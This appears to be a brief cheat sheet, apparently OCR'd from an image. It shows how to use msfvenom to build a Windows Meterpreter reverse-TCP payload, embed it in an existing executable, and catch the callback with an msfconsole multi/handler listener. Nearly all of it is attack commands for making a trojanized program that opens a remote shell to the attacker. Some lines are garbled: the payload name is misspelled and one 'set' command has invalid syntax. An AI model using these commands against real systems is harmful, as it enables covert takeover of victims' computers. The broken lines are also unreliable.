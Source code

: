 msfvenom -p windows/merterpreter/reverse_tcp -a x86 --platform windows -f exe -o ./filename.exe LHOST=ip LPORT=4444 -x $x
-a = architecture(msfvenom -l architectures) 
-f = format(msfvenom -l formats)
-p = payloads(msfvenom -l payloads)
-x = 捆绑

# Connect
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST=IP
set LPORT=4444
run

set exitonsession false(allow multiple sessions)
run -j(running in background)

